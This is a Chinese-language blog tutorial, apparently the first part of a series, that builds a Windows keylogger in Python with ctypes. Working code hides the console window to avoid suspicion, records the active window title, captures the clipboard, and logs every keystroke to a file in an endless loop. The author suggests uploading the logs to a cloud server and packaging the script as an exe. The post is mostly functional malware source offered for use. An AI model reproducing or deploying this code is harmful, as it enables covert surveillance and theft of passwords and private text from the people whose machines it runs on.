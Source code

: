 ```yaml
---
title: 建立键盘记录器part1
description: 使用python编写键盘记录器.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


>如想有更好的了解请查看[原文](https://0x00sec.org/t/malware-writing-python-malware-part-1/11700)

#### 导入标准库，隐藏控制台窗口

导入提供所需功能的Windows DLL。所需`kernel32.dll`与`user32.dll`，为避免怀疑隐藏控制台窗口。
	
```python
import ctypes    #提供C兼容的数据类型
import logging   #用于记录键盘记录

kernel32  = ctypes.windll.kernel32    #调用kernel32.dll
user32 = ctypes.windll.user32         #调用user32.dll

user32.ShowWindow(kernel32.GetConsoleWindow(),0)    #隐藏窗口
```

#### get_current_window()

获取当前窗口标题，以便知道记录的是用户使用的哪个程序。
	
```python
def get_current_window():    #抓取当前窗口标题
    #必需的WinAPI函数
    GetForegroundWindow = user32.GetForegroundWindow
    GetWindowTextLength = user32.GetWindowTextLengthW
    GetWindowText = user32.GetWindowTextW

    hwnd = GetForegroundWindow()    #获取当前窗口句柄
    length = GetWindowTextLength(hwnd)    #获取标题文本长度，将句柄乍为参数传递
    buff = ctypes.create_unicode_buffer(length + 1)    #创建临时缓存buff用于存储标题文本

    GetWindowText(hwnd, buff, length + 1)    #获取窗口标题并存储在buff中

    return buff.value    #返回buff的值
```

#### get_clipboard()

捕获剪贴板内容。tips：使用`PyWin32`可以用更少的代码完成些操作

```python
def get_clipboard():

    CF_TEXT = 1    #设置剪贴板格式

    #GlobalLock/GlobalUnlock 参数与返回类型
    kernel32.GlobalLock.argtypes = [ctypes.c_void_p]
    kernel32.GlobalLock.restype = ctypes.c_void_p
    kernel32.GlobalUnlock.argtypes = [ctypes.c_void_p]

    #GetClipboardData的返回类型
    user32.GetClipboardData.restype = ctypes.c_void_p
    user32.OpenClipboard(0)

    #所需剪贴板函数
    IsClipboardFormatAvailable = user32.IsClipboardFormatAvailable
    GetClipboardData = user32.GetClipboardData
    CloseClipboard = user32.CloseClipboard

    try:
        if IsClipboardFormatAvailable(CF_TEXT):    #如果CF_TEXT可用
            data = GetClipboardData(CF_TEXT)    #获取剪贴板数据的句柄
            data_locked = kernel32.GlobalLock(data)    #获取指向数据所在的内存位置的指针
            text = ctypes.c_char_p(data_locked)    #获取指向data_locked位置的char*(python中的字符串)指针
            value = text.value    #存储有用的值
            kernel32.GlobalUnlock(data_locked)    #递减锁计数
            return value.decode('utf-8')    #返回剪贴板的值
    finally:
        CloseClipboard()    #关闭剪贴板
```

#### get_keystrokes()

监听并记录敲击字符并记录。函数调用时需传入两个参数，日志文件存储目录和文件名。
按键记录使用`while`死循环，原因不希望键盘记录停止。但如果我们要同时执行其他任务，则需要使用多线程或单独的进程中与其他函数一并运行它。

```python
def get_keystrokes(log_dir,log_name):    #监听与记录敲击键盘内容
    #记录
    logging.basicConfig(filename=(log_dir + '\\' + log_name),level=logging.DEBUG,format='%(message)s')

    GetAsyncKeyState = user32.GetAsyncKeyState    #WinAPI函数，确定按键是向上还是向下
    special_keys = {
        0x08: 'BS',
        0x09: 'Tap',
        0x10: 'Shift',
        0x11: 'Ctrl',
        0x12: 'Alt',
        0x14: 'CapsLock',
        0x1b: 'Esc',
        0x20: 'Space',
        0x2e: 'Del',
    }
    current_window = None
    line = []    #存储点击的字符

    while True:
        if current_window != get_current_window():    #判断current_window内容不是当前打开的窗口
            current_window = get_current_window()    #将窗口标题放在current_window中
            logging.info(str(current_window))    #将当前窗口标题写入日志文件

        for i in range(1,256):    #256个ASCII字符
            if GetAsyncKeyState(i) & 1:    #如果点击某个键并匹配ASCII字符
                if i in special_keys:    #如果是特殊键，这样记录
                    logging.info("<{}>".format(special_keys[i]))
                elif i == 0x0d:    #如果键入<ENTER>，则记录然后清除行变量
                    logging.info(line)
                    line.clear()
                elif i ==0x63 or i == 0x43 or i == 0x56 or i ==0x76:    #如果点击字符'c'或'v'，则获取剪贴板数据
                    clipboard_data = get_clipboard()
                    logging.info("[CLIPBOARD] {}".format(clipboard_data))
                elif 0x30 <= i <= 0x5a:    #如果是字母数字字符，则追加到line
                    line.append(chr(i))
```

后续可自加代码，如定时将记录文件上传到云服务器 :grin: 

将py文件用pyinstaller打包成exe并运行，因为使用while True死循环，cpu占用较高，这点将在part2解决。

![part1_1](https://yui77111.github.io/assets/images/article/python/1_1.png)

![part1_2](https://yui77111.github.io/assets/images/article/python/1_2.png)

![part1_3](https://yui77111.github.io/assets/images/article/python/1_3.png)

源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/keylogger/part1.py)